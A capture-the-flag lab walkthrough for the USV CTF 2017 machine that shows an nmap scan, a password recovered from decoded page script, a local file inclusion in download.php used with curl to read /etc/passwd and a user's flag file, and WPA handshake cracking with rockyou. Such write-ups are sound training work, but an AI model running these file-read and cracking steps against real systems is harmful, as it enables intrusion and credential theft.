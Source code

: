 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


Lets find out the Victim machines IP ⬇️IP : 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled.png)

```
IP : 10.0.2.35
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 14:10 IST
Nmap scan report for 10.0.2.35
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            ProFTPD 1.3.5b
22/tcp    open  ssh            OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 d71072d8d276b21e28110411b4e2984e (RSA)
|   256 b82961bbf18cc464ddf50ea0a22ffdaa (ECDSA)
|_  256 2b7e351042ca082066418880a04f02e6 (ED25519)
80/tcp    open  http           Apache httpd
|_http-server-header: Apache
|_http-title: Site does not have a title (text/html).
4369/tcp  open  epmd           Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ejabberd: 34713
5222/tcp  open  jabber         ejabberd (Protocol 1.0)
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       lang: en
|       server name: localhost
|       version: 1.0
|     errors: 
|       host-unknown
|       host-unknown
|       (timeout)
|     auth_mechanisms: 
|     features: 
|     unknown: 
|     stream_id: 13835454705195693772
|     compression_methods: 
|_    capabilities: 
5269/tcp  open  jabber         ejabberd
| xmpp-info: 
|   Ignores server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|   post_tls: 
|     xmpp: 
|_    capabilities: 
5280/tcp  open  ssl/xmpp-bosh?
| ssl-cert: Subject: commonName=ejabberd/organizationName=stl.int
| Not valid before: 2017-10-23T20:50:49
|_Not valid after:  2018-10-23T20:50:49
|_ssl-date: TLS randomness does not represent time
15020/tcp open  http           Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
34713/tcp open  unknown
MAC Address: 08:00:27:1A:A2:58 (Oracle VirtualBox virtual NIC)
Service Info: Host: localhost; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%203.png)

Now let’s try to brute force the password >>

From Source code I got a hex encoded script code after decoding it I got this >>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%204.png)

So this code gives me a formula to calculate password ⬇️

**(stringconcat(password+4469)-234562221224)*1988=1079950212331060**

After calculating I got the password =77779673 , Lets use it now —> 

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%205.png)

This is our `1st flag ➡️ Italy:46202df2ae6c46db8efc0af148370a78`

Now lets enumerate port 15020 >>

while looking into the ssl certificate  I got this next flag ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%206.png)

Our next `2nd flag ➡️ a51f0eda836e4461c3316a2ec9dad743`

Further Enumeration I got this >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%207.png)

So lets see the source code ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%208.png)

Now lets access the download.php file >>>

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%209.png)

So I see we have LFI but I can’t execute it through web so lets use `curl`.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/etc/passwd" https://10.0.2.35:15020/blog/download.php -k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```

Now I got it , let ‘s access the flag.txt from kevin home.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/home/kevin/flag.txt" https://10.0.2.35:15020/blog/download.php -k
Croatia: e4d49769b40647eddda2fe3041b9564c
```

Now I downloaded the whole /vault/ directory ➡️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2010.png)

Now lets find the files inside the vault ➡️

```bash
find ./ -type f | grep -v .html
```

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2011.png)

Now lets see the cap file ⤵️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2012.png)

Now lets convert this WPA cap file to the format of hccapx hash format so that we can use our rockyou.zip file decode the hash.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2014.png)

so the password is `minion.666` let’s use this to login into the port 15020 with user as `admin`.

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2015.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/USV_CTF_2017/Untitled%2016.png)

`flag 4 ➡️ Philippines: 551d3350f100afc6fac0e4b48d44d380`